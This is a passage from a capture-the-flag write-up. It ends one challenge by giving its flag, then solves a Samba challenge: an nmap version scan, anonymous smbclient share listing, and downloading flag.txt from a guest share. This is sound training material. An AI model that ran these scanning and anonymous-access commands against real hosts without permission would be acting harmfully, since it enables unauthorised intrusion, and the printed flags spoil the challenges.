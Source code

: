 which just contained the flag!

🏁 __utflag{d1d_y0u_us3_a_j1t_bug_0r_nah}__{:.spoiler}

---

# Networking

## Be My Guest

> Can you share some secrets about this box?
>
> nmap is allowed for this problem. However, you may only target 'misc.utctf.live port 8881 & 8882'. Thank you.

Such an explicit scanning permission needs to be acted upon, and while we're at it let's enable some version detection too:

```bash
nmap -sV -T4 -p 8881-8882 misc.utctf.live
```

```text
PORT     STATE SERVICE     VERSION
8881/tcp open  netbios-ssn Samba smbd 4.6.2
8882/tcp open  netbios-ssn Samba smbd 4.6.2
```

[Samba](https://en.wikipedia.org/wiki/Samba_(software)) shares in a challenge with "guest" in its name? Anonymous credentials are worth try:

```bash
smbclient -U anonymous%anonymous -p 8881 -L misc.utctf.live
```

```text
Sharename       Type      Comment
---------       ----      -------
guest           Disk      Look, but don't touch please.
IPC$            IPC       IPC Service (Samba Server)
```

Let's browse the share's contents:

```bash
smbclient -p 8881 -U anonymous%anonymous \\\\misc.utctf.live\\guest
```

```text
smb: \> ls
  .                                   D        0  Fri Mar 12 07:45:26 2021
  ..                                  D        0  Fri Mar 12 23:44:53 2021
  flag.txt                            N       30  Fri Mar 12 07:45:26 2021
smb: \> get flag.txt
getting file \flag.txt of size 30 as flag.txt (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
```
